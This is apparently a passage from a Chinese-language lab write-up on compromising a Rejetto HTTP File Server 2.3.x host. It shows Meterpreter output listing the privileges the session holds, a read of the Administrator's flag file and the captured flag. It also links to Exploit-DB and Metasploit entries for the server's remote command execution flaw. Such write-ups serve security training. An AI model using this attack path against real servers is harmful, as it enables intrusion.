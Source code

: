 ```
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
meterpreter > cat C:\\Users\\Administrator\\Desktop\\flag.txt
x28c832a39730b7d46d6c38f1ea18e12
```

The flag in `C:\\Users\\Administrator\\Desktop\\flag.txt` is `x28c832a39730b7d46d6c38f1ea18e12`。

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-2353.pdf

[Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161)

[Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
